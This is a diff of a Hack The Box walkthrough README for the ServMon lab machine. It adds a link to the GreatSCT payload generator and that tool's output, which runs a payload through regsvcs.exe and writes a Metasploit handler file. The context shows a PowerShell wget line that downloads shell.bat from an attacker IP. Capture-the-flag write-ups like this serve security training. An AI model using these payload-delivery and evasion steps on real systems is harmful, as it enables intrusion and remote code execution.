

Before and after one commit to r1skkam/HackTheBox-Walkthroughs, a Markdown page: After failed OSCP/ServMon/README.md, the part around one of its changes. Drawn GitHub-style; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

````diff
--- a/After failed OSCP/ServMon/README.md
+++ b/After failed OSCP/ServMon/README.md
@@ -121,3 +121,19 @@ powershell wget http://10.10.16.5/shell.bat -outfile shell.bat
 ```
 
 ![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/ff0dbd6a-4b09-460b-bcf1-3825d822b431)
+
+https://github.com/GreatSCT/GreatSCT
+
+```
+===============================================================================
+                                   Great Scott!
+===============================================================================
+      [Web]: https://github.com/GreatSCT/GreatSCT | [Twitter]: @ConsciousHacker
+===============================================================================
+
+ [!] ERROR: Unable to create output file.
+ [*] Source code written to: /usr/share/greatsct-output/source/serv.cs
+ [*] Execute with: C:\Windows\Microsoft.NET\Framework\v4.0.30319\regsvcs.exe serv.dll
+ [*] Metasploit RC file written to: /usr/share/greatsct-output/handlers/serv.rc
+```
+
````
Also changed, not shown: other parts of After failed OSCP/ServMon/README.md (+5 -0 lines).
